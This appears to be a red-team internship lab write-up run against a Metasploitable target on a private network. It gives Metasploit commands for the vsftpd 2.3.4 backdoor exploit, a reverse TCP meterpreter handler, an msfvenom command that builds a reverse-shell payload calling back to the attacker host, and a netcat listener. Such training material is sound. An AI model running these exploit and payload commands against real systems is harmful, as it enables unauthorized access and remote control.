



# Week 4 - CYART Red Teaming Internship

## 🔴 Introduction

This practical demonstrates real-world red teaming techniques including reconnaissance, exploitation, payload creation, and reverse shell access using Kali Linux and Metasploitable.

---

## 🟢 1. Command & Control (C2)

### Commands

* msfconsole
* use exploit/multi/handler
* set payload windows/meterpreter/reverse_tcp
* set LHOST 192.168.30.130
* set LPORT 4444

### Explanation

A reverse TCP handler was configured to listen for incoming connections from compromised systems.

---

## 🔵 2. Reconnaissance (Nmap)

### Command

nmap 192.168.30.129

### Explanation

Nmap scanning was used to identify open ports and services on the target machine.

---

## 🟣 3. Exploitation (VSFTPD Backdoor)

### Commands

* use exploit/unix/ftp/vsftpd_234_backdoor
* set RHOSTS 192.168.30.129
* set LHOST 192.168.30.130
* run

### Explanation

The VSFTPD vulnerability was exploited to gain unauthorized access.

---

## 🟡 4. Meterpreter Session

### Commands

* getuid
* pwd
* sysinfo

### Explanation

A Meterpreter session was opened, providing root-level access to the target system.

---

## 🟠 5. Payload Creation

### Command

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.30.130 LPORT=4444 -f elf > shell.elf

### Explanation

A reverse shell payload was generated using msfvenom.

---

## 🔴 6. Reverse Shell (Netcat)

### Commands

Attacker:
nc -lvnp 4444

Victim:
reverse shell command

### Explanation

A reverse shell connection was established allowing remote command execution.

---

## 🟢 7. Cloud Simulation

### Command

aws --version

### Explanation

AWS CLI was used to simulate cloud environment interaction.

---

## ✅ Conclusion

This practical successfully demonstrated:

* Reconnaissance
* Exploitation
* Post-exploitation
* Payload generation
* Reverse shell access

---

## ⭐ Learning Outcome

* Hands-on experience in penetration testing
* Understanding of attack lifecycle
* Practical use of cybersecurity tools
